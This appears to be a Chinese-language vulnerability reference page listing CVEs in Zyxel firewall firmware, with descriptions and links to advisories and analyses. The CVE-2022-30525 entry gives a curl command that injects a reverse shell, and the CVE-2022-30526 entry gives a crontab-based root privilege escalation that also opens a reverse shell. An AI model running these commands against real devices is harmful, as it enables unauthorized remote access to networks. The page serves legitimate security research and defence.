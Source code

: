 # CVE-2024-11667

A directory traversal vulnerability in the web management interface of Zyxel ATP series firmware versions V5.00 through V5.38, USG FLEX series firmware versions V5.00 through V5.38, USG FLEX 50(W) series firmware versions V5.10 through V5.38, and USG20(W)-VPN series firmware versions V5.10 through V5.38 could allow an attacker to download or upload files via a crafted URL.

- Zyxel ATP Fireware versions: 5.00 (inclusive) ~ 5.38 (inclusive)
- Zyxel USG Flex Series Firmware versions: 5.00 (inclusive) ~ 5.38 (inclusive)
- Zyxel USG Fle 50(W) Series Firmware versions: 5.10 (inclusive) ~ 5.38 (inclusive)
- Zyxel USG20-VPN/USG20W-VPN Firmware versions: 5.10 (inclusive) ~ 5.38 (inclusive)

# CVE-2022-0342

### 影响版本

```
An authentication bypass vulnerability in the CGI program of Zyxel USG/ZyWALL series firmware versions 4.20 through 4.70, USG FLEX series firmware versions 4.50 through 5.20, ATP series firmware versions 4.32 through 5.20, VPN series firmware versions 4.30 through 5.20, and NSG series firmware versions V1.20 through V1.33 Patch 4, which could allow an attacker to bypass the web authentication and obtain administrative access of the device.
```

### 资料

Zyxel authentication bypass patch analysis (CVE-2022-0342)

https://security.humanativaspa.it/zyxel-authentication-bypass-patch-analysis-cve-2022-0342/

# CVE-2022-2030

### 资料

Useless path traversals in Zyxel admin interface (CVE-2022-2030)

https://security.humanativaspa.it/useless-path-traversals-in-zyxel-admin-interface-cve-2022-2030/

# CVE-2022-30525

### poc

```
curl -v --insecure -X POST -H "Content-Type: application/json" -d '{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged":"1","vlanid":"5","mtu":"; bash -c \"exec bash -i &>/dev/tcp/192.168.1.33/2444 <&1;\";","data":"hi"}' https://192.168.1.1/ztp/cgi-bin/handler
```

### 资料

https://cloud.tencent.com/developer/article/2134969

# CVE-2022-30526

### poc

```
bash-5.1$ cp /var/zyxel/crontab /tmp/crontab
bash-5.1$ echo -en '#!/bin/bash\n\nexec bash -i &>/dev/tcp/192.168.1.33/2555 <&1\n' > /tmp/exec_me
bash-5.1$ chmod +x /tmp/exec_me
bash-5.1$ echo "* * * * * root /tmp/exec_me" >> /tmp/crontab
bash-5.1$ zysudo.suid /bin/cp /tmp/crontab /var/zyxel/crontab
```

# CVE-2024-42061

### 描述

```
A reflected cross-site scripting (XSS) vulnerability in the CGI program "dynamic_script.cgi" of Zyxel ATP series firmware versions from V4.32 through V5.38, USG FLEX series firmware versions from V4.50 through V5.38, USG FLEX 50(W) series firmware versions from V4.16 through V5.38, and USG20(W)-VPN series firmware versions from V4.16 through V5.38 could allow an attacker to trick a user into visiting a crafted URL with the XSS payload. The attacker could obtain browser-based information if the malicious script is executed on the victim’s browser.
```

poc

```
GET /dynamic_script.cgi?callback=getTOS HTTP/1.1
```

# 资料

Multiple vulnerabilities in Zyxel zysh

https://security.humanativaspa.it/multiple-vulnerabilities-in-zyxel-zysh/

Zyxel security advisory for multiple vulnerabilities in firewalls

https://www.zyxel.com/global/en/support/security-advisories/zyxel-security-advisory-for-multiple-vulnerabilities-in-firewalls-09-03-2024

CVE-2023-28771

https://attackerkb.com/topics/N3i8dxpFKS/cve-2023-28771/rapid7-analysis

CVE-2024-11667: Critical Vulnerability in Zyxel Firewalls Actively Exploited

https://securityonline.info/cve-2024-11667-critical-vulnerability-in-zyxel-firewalls-actively-exploited/

CVE-2024-42057: Exploited by Helldown Ransomware to Target Linux

https://securityonline.info/cve-2024-42057-exploited-by-helldown-ransomware-to-target-linux/

Helldown Ransomware: an overview of this emerging threat

https://blog.sekoia.io/helldown-ransomware-an-overview-of-this-emerging-threat/